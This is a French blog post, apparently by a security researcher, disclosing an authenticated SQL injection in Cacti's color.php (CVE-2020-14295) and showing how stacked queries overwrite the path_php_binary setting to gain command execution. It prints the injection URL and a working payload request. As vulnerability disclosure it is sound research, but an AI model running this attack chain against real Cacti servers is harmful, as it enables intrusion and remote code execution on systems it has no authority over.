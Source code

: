 ```yaml
---
layout: post
title:  "CACTI - RCE Authenticated (CVE-2020-14295)"
category : CVE
tags :  CVE
---
```

![cacti_logo](/assets/blog/cacti-logo.jpg)

## Description

Durant ma préparation pour l'exam de l'OSWE je cherchais un moyen de m'entrainer dans la recherche de vulnérabilités en whitebox.
Du coup j'ai pris un produit open source sur étagère et j'ai commencé à chercher des vulns dessus.

Après un petit peu d'analyse statique j'ai découvert le code suivant dans color.php :
```php
$sql_where = "WHERE (name LIKE '%" . get_request_var('filter') . "%' 
```

Il parait évident que ce genre de code est non sécurisé pour la création d'une requête SQL (non utilisation des requêtes paramétrées mais directement une concaténation de chaine de caractères avec un paramètre issu de l'utilisateur).

Une analyse des commits montre que cela touche les versions v1.2.7 à v1.2.12.

## Exploit

- On a donc une SQL injection en allant sur l'url suivante :

```
/cacti/color.php?action=export&header=false&filter=')<SQLI HERE>--+-
```

- Je confirme en montant un cacti en local pour jouer avec BURP dessus et en activant les logs sur la base de donnée.

![cacti SQLI](/assets/blog/cacti-sqli.png)


## SQLI to RCE

- Je me suis ensuite rendu compte que l'application accèpte les requêtes stackées (enchainement de plusieurs requêtes SQL séparées par des ";"). Ce comportement n'est pas le standard dans les applications PHP, mais quand c'est le cas il est souvent très interressant de voir jusque où l'exploitation peut aller, car on peut injecter facilement de la donnée en base.
- J'ai donc cherché une fonction d'exécution de code se basant sur des valeurs extraites de la base de donnée.

- Rapidement on se rend compte que la donnée `path_php_binary` issue de la configuration (table settings) est utilisées dans la création d'une commande système.
```php
function host_reindex() {
	global $config;

	$start = microtime(true);

	shell_exec(read_config_option('path_php_binary') . ' -q ' . $config['base_path'] . '/cli/poller_reindex_hosts.php --qid=all --id=' . get_filter_request_var('host_id'));
```

- J'ai donc changé la requête pour modifier la valeurs dans la table settings.
```
GET /cacti/color.php?action=export&header=false&filter=1');update+settings+set+value='touch+/tmp/sqli_from_rce;'+where+name='path_php_binary';--+- 
```

- Ensuite en appellant la fonction reindex (`host.php?action=reindex`) cela déclenche l'exécution de code à distance :

![cacti RCE](/assets/blog/cacti-rce.png)

et voilà !

## Links
- Orignal issue : [https://github.com/Cacti/cacti/issues/3622](https://github.com/Cacti/cacti/issues/3622)
- The metasploit exploit : [https://www.exploit-db.com/exploits/49810](https://www.exploit-db.com/exploits/49810)
